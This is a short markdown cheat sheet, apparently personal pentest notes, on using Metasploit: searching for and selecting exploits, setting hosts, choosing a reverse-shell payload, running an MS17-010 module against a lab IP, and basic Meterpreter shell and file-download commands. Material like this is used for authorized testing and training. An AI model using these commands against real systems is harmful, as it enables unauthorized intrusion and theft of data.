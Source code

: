 ```yaml
---
id: Metasploit
aliases: ["msfconsole"]
tags:
  - Pentest/Tools/Metasploit
---
```


# Metasploit

## Resources

- [Metasploit](https://www.metasploit.com/)
- [GitHub - Metasploit](https://github.com/rapid7/metasploit-framework)

<!-- Usage {{{-->
## Usage

### Launch Metasploit

```sh
msfconsole
```

### Search Exploit

```sh
search <exploit>
```

### Select Exploit

```sh
use <number_of_exploit>
```

### Show Options

Any option with `Required` set to `yes` needs to be set

```sh
show options
```

Show advanced options

```sh
show advanced
```

### Set Options

Set **Local Host** (IP, or the name of a network interface)

```sh
set LHOST <local_host>
```

Set **Remote Host** (IP, multiple IPs, or a file containing a list of IPs)

```sh
set RHOST <remote_host>
```

Set **payload** (optional)

```sh
set payload generic/shell_reverse_tcp
```

> [!example]-
>
> **Set Options**
>
>```sh
>msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
>RHOSTS => 10.10.10.40
>msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
>LHOST => tun0
>```

### Check Exploit

Check if the target is vulnerable to the exploit

```sh
check
```

> [!note]
>
> Not every exploit supports the `check` function

### Run Exploit

Use the `run` or `exploit` commands to launch the exploit

```sh
run
```

```sh
exploit
```
<!-- }}} -->

<!-- Meterpreter {{{-->
# Meterpreter

## Usage

Synopsis

```sh
meterpreter > help
```

Help

```sh
help
```

Spawn a shell

```sh
shell
```

## Options

- cd
- ls
- pwd
- download <file>
<!-- }}} -->

